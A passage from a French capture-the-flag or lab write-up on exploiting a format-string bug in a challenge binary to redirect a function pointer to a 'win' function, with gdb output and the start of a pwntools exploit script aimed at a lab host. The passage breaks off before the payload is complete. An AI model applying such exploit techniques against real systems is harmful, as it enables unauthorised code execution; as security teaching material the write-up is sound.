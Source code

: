 On voit qu'en local si j'écrit dans mon payload "AAAA" + "%x" et que j'affiche un peu plus de ma mémoire grace à la commande `x /10w $ebp-0x150` je vois cela:

`0xff803518:    0x80485e6   0x41414141`

`0x41414141` correspond à mes 4 'A', si mon adresse de la fonction "fail" vaut bien `0x080485E6`, je saurais alors que mon buffer est une adresse après ma fonction "function" et que c'est la valeur de cette dernière que je devrais remplacer par l'adresse de WIN.

```sh
gef➤  x /w fail
0x80485e6 <fail>: 
```

La fonction "fail" à bien la même adresse. Cela veut dire que l'adresse de mon buffer - 0x4 est égal à l'adresse de "function"

Le problème c'est que cette adresse change à chaque nouvelle compilation. Il nous faut donc écrire un code avec pwntools qui va nous récupérer l'adresse de notre buffer convertir en hexa, soustraire 0x4 pour retomber sur l'adresse de "function" dynamiquement avant de créer notre payload.

La suite de la manipulation cf. 4.2

### Manipulation 4.2: Sur la base de toutes ces informations, exploiter la vulnérabilité en remote pour exécuter la fonction win

Pour exploiter cette vulnérabilité, j'ai écris le script suivant:

```python
#!/usr/bin/env python2
# encoding: utf-8
from pwn import *
import argparse

parser = argparse.ArgumentParser("Template d'exploitation SLO level3")
parser.add_argument('--file', '-f', type=str, default="./chal3", help="name of the binary to exploit")
parser.add_argument('--host', type=str, default='10.192.72.221', help='IP remote')
parser.add_argument('--port', '-p', type=int, help='Remote port')
parser.add_argument('--remote', '-r', default=False, action='store_true', help='Enable remote connection')
parser.add_argument('--debug', '-d', default=False, action='store_true', help='Set pwntools log level to debug')
parser.add_argument('--gdb', '-g', default=False, action='store_true', help='Start gdb')

args = parser.parse_args()

if args.debug:
    context.log_level = 'DEBUG'

if args.remote:
    if args.port is None:
        log.warn('Port required for remote execution')
        sys.exit(-1)
    r = remote(args.host, args.port)

else:
    #r = ELF(args.file)
    r = process(args.file)
    if args.gdb:
        gdb.attach(r, ''' break main ''')


#get the value of the function
payload = "%x" #* 11

```